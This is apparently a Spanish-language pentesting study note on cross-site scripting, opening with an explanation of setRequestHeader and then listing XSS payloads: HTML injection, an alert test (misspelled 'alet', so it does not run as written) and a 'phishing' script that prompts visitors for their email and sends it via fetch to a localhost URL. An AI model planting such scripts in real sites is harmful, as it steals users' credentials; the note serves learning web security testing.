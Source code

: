     En este ejemplo, **`setRequestHeader()`** se utiliza para agregar un encabezado de autorización a la solicitud. El encabezado **`Authorization`** se establece con el valor **`'Bearer myAccessToken'`**, donde **`myAccessToken`** es el token de acceso válido.
    
    Es importante tener en cuenta que algunos encabezados, como **`Content-Type`** o **`Accept`**, tienen métodos específicos para establecerlos, como **`setRequestHeader('Content-Type', 'application/json')`**. Además, es posible que algunos encabezados estén restringidos debido a las políticas de seguridad del navegador o el servidor, por lo que no se permitirá establecerlos o se eliminarán automáticamente.
    
    Recuerda consultar la documentación del servidor o la API que estás utilizando para determinar qué encabezados son necesarios y cómo deben configurarse.
    

## Scripts para XSS

### HTML

```bash
Esto es una <h1>prueba</h1>
<marquee>Prueba</marquee>
```

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%201.png)

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%202.png)

### JavaScript: Mostrando alerta en pantalla

```bash
# Mostrar una alerta en la pantalla
<script>alet("XSS")</script>
```

Si esto funciona, significa que la web es vulnerable a XSS.

### JavaScript: Phishing para correos

Mediante una alerta mostrada en pantalla, se le pedirá al usuario ingresar credenciales para continuar visitando el sitio.

Primero se crea un archivo el cual servirá para hacer el código el cual luego se copiará y pegará en el campo vulnerable a XSS en la web:

```bash
nano phishing.js
```

Código

```bash
<script>
	var email = prompt("Por favor introduce tu correo electrónico 
	para continuar", "example@gmail.com");

	if (email == null || email == ""){
		alert("Por favor, ingresa un usuario válido");
	} else {
		fetch("http://localhost/?email=" + email);
	}
</script>
```
